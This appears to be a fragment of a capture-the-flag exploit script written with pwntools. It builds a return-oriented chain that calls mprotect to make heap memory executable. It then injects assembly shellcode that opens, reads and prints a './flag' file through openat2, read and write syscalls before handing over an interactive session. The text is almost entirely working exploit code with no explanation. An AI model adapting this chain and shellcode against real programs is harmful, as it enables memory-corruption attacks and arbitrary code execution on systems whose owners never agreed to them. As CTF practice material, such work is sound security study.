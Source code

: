 ```python
mprotect=libc.sym['mprotect']
payload=p64(0)+p64(pop_rdi)+p64(heap)+p64(pop_rsi)+p64(0x2000)+p64(pop_rax)+p64(0x7)+p64(xchg_edx_eax)+p64(mprotect)+p64(heap+0xc40)
edit(6,payload+b'\n')

shellcode=asm('''
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    push 0
    push 0
    push 0
    mov rdx, rsp
    mov r10, 0x18
    push SYS_openat2
    pop rax
    syscall
    mov rdi,3
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
''')
edit(1,shellcode+b'\n')
p.recvuntil(b': ')
p.sendline(b'5')
p.interactive()
```